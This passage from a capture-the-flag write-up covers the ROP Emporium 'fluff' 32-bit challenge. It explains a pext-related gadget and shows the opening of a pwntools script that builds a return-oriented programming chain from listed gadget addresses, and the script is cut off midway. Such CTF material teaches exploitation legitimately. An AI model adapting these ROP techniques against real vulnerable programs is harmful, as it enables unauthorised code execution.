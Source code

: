     * ![flag](/assets/images/rop_emp/fluff32/pext.png)
* `0x08048399 : pop ebx ; ret`
    * This instruction sets up the source operand (`ebx`) for the `pext` instruction shown above. 

Thus, we created the following script to solve the challenge. 

```python
#!/usr/bin/env python3

from pwn import *

OFFSET = 44

def cal(final):
    mask = "1011101111"
    output = []
    final_bitstring = bin(ord(final))[2:].zfill(8)
    
    idx = 0
    for i in mask:
        if i == "1":
            output.append(final_bitstring[idx])
            idx += 1
        else:
            output.append("0")
            
    output = int("".join(output), 2)
    return output
    
def construct_payload(write_location):
    payload = b""
    flag_string = "flag.txt"
    
    xchg_ecx_dl = p32(0x08048555)         # 0x08048555 : xchg byte ptr [ecx], dl ; ret
    pop_ecx_bswap = p32(0x08048558)       # 0x08048558 : pop ecx ; bswap ecx ; ret
    pext_mov_eax = p32(0x0804854a)        # 0x0804854a : pext edx, ebx, eax ; mov eax, 0xdeadbeef ; ret
    mov_eax = p32(0x0804854f)             # 0x0804854f : mov eax, 0xdeadbeef ; ret
    pop_ebx = p32(0x08048399)             # 0x08048399 : pop ebx ; ret
```